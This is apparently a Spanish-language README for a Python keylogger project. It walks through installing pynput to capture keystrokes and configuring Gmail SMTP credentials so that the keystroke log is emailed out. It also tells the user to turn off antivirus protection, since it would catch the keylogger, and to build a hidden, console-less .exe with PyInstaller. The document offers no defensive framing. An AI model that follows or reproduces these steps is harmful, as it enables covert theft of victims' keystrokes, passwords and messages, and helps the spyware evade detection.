 # 📌 Instalación de Dependencias en Python

Antes de ejecutar el keylogger, asegúrate de instalar las bibliotecas necesarias.

## 📌 Requisitos

🔹 Python 3.x instalado en tu sistema.
🔹 Conexión a Internet para descargar las dependencias.

## 🚀 Instalación de Dependencias

### 1️⃣ Instalar `pynput` para Captura de Teclado

El módulo `pynput` permite registrar las teclas presionadas en el sistema. Instálalo con:

```bash
pip install pynput
```

### 2️⃣ Instalar `smtplib` y `email` para Envío de Correos

El módulo `smtplib` ya está incluido en Python, pero `email` se usa para estructurar los mensajes de correo. Se recomienda actualizar `email` con:

```bash
pip install secure-smtplib
```

### 3️⃣ Verificar Instalación

Después de instalar las dependencias, verifica que se hayan instalado correctamente ejecutando:

## ✉️ Configuración del Correo

Abre el archivo y reemplaza los siguientes valores con tu información:

```python
mensaje["From"] = "tucorreo@gmail.com"
mensaje["To"] = "destinatario@gmail.com"
server.login("tucorreo@gmail.com", "tu_contraseña")
server.sendmail("tucorreo@gmail.com", "destinatario@gmail.com", mensaje.as_string().encode('utf-8'))
```

🔹 **Usa una contraseña de aplicación en lugar de tu contraseña real para mayor seguridad.**

## ▶️ Ejecutar el Keylogger

Para iniciar el keylogger, ejecuta:

```bash
python keylogger.py
```

📌 **Presiona `F11` para enviar el registro por correo o `ESC` para salir.**


```bash
pip list | grep -E "pynput|smtplib|email"
```

Si todo está bien, ya puedes ejecutar el script sin problemas. 🚀

# 🛠️ Crear un Archivo Ejecutable (.exe) con PyInstaller

Para convertir el script en un archivo ejecutable `.exe`, es necesario utilizar `pyinstaller`. Antes de proceder, **desactiva tu antivirus**, ya que podría detectar el keylogger como una amenaza y eliminarlo.

🔹 Instalar pyinstaller

```bash
pip install pyinstaller
```

### 🚨 Desactivar Antivirus

🔹 Desactiva temporalmente la protección en tiempo real de tu antivirus antes de ejecutar el siguiente comando puede saltar un error asi.

![Desactivar Antivirus](./img/keylogger_antivirus.png)

### 🔹 Generar el Archivo .exe

Ejecuta el siguiente comando en la terminal dentro de la carpeta donde se encuentra `KeyLogger_Mail.py`:

```bash
pyinstaller --onefile --noconsole keylogger.py
